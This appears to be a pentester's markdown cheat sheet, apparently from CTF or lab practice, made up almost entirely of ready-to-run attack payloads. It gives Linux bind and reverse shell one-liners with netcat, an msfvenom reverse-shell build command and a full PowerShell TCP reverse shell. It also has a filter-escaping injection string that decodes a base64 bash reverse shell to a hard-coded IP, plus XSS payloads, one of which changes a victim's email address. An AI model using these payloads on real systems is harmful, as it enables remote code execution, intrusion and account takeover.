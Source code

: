   - 2 install rlwrap first

    ```bash
    rlwrap nc -lvnp <port>
    stty raw -echo; fg
    ```

- common shell payloads

  - linux bind shell

    ```bash
    mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```

  - linux reverse shell

    ```bash
    mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```

    ```bash
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
    ```
  
    

  - windows one-liner php reverse shell
  
    ```bash
    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
  
  for others, check [PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)



- escape server-side filter

  ```bash
  \";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC40LjYwLjIxMy8xMjM0NSAwPiYxCg== | base64 -d | bash\n\"
  ```

  

## XSS

xsshunter

`<script>alert('XSS');</script>`

If there's function like `user.changeEmail()` usen, 

try `<script>user.changeEmail('attacker@hacker.thm'); </script>`
